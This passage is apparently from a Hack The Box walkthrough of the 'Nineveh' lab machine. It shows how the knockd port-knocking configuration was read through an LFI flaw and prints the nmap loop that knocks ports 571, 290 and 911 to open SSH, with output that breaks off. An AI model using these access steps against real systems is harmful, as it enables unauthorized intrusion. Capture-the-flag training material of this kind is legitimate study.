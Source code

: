 When I ran Linpeas, it reported that port 22 was listening on localhost although nmap didn't report the port as open. It turns out that there is a technique known as [Port Knocking](https://en.wikipedia.org/wiki/Port_knocking) used to externally open ports on a firewall by generating a connection attemmpt on a set of pre-specified closed ports. Once a correct sequence of connection attempts is received, the firewall rules are dynamically modified to allow the host which sent the connection attempts to connect over specific port(s).

In short, if you know the exact sequence of ports to connect to, you can open up port 22. To find the sequence you have to enumerate files on the server. This could be done using the LFI vulnerability we found.

The first file we need is `knockd`
```
cat /etc/init.d/knockd
```

There, you’ll find a link to the configuration file `/etc/knockd.conf`. If you cat the file you’ll find the sequence of ports we have to hit.
```
root@nineveh:/etc/init.d# cat /etc/knockd.conf 
[options]
 logfile = /var/log/knockd.log
 interface = ens33[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn
```

What the file says is that you can open the SSH port by sending a TCP packet to the ports `571`, `290` and `911` in sequence.

I performed this using the following `bash` command
```
for x in 571 290 911; do nmap -Pn --max-retries 0 -p $x 10.10.10.43 && sleep 1; done
```

I got the following output.
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Nineveh]
└─$ for x in 571 290 911; do nmap -Pn --max-retries 0 -p $x 10.10.10.43 && sleep 1; done
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-20 01:49 EST
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up.

PORT    STATE    SERVICE
571/tcp filtered umeter

Nmap done: 1 IP address (1 host up) scanned in 1.05 seconds
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-20 01:49 EST
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up.

PORT    STATE    SERVICE
290/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 1.05 seconds
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-20 01:50 EST
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up.

```